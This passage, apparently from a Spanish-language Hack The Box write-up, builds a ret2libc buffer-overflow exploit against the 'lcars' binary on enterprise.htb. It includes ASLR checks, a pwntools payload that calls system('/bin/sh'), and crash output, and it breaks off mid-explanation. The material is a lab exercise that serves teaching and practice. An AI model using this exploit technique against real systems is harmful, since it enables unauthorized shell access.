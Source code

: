 ```bash
❭ cat /proc/sys/kernel/randomize_va_space
0
```

Si está en **2** está activado y deberíamos pasarlo a **0** (o bypassearlo), pero por ahora tamos bien, validemos ahora el de **enterprise.htb**:

```bash
www-data@enterprise:/var/www/html/files$ cat /proc/sys/kernel/randomize_va_space
0
```

Listo, sin problemas.

...

Entonces nuestro script tendría estas nuevas líneas:

```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7d7ffa0, endian='little') # system()
payload += p32(0xf7ec733c, endian='little') # /bin/sh
...
```

Ahora podemos empezar a probar sin tener de intermediario a **gdb**:

```bash
❭ python3 exploit.py ./lcars
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process './lcars': pid 1125113
[*] Switching to interactive mode

sh: 1: \x13 not found
[*] Got EOF while reading in interactive
$ id
[*] Process './lcars' stopped with exit code -11 (SIGSEGV) (pid 1125113)
[*] Got EOF while sending in interactive
```

Tenemos un error: **sh: 1: \x13 not found**... Buscando más ejemplos sobre el ataque encontramos este recurso:

* [Linux Classic - return2libc.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf).

Donde ejecuta prácticamente los mismos pasos, busca la dirección en memoria de la función `system()` y algo relacionado con "`/bin/sh`", peeeero entre medio de los dos pasa **4 bytes** (8 bits) basura, algo asi como:
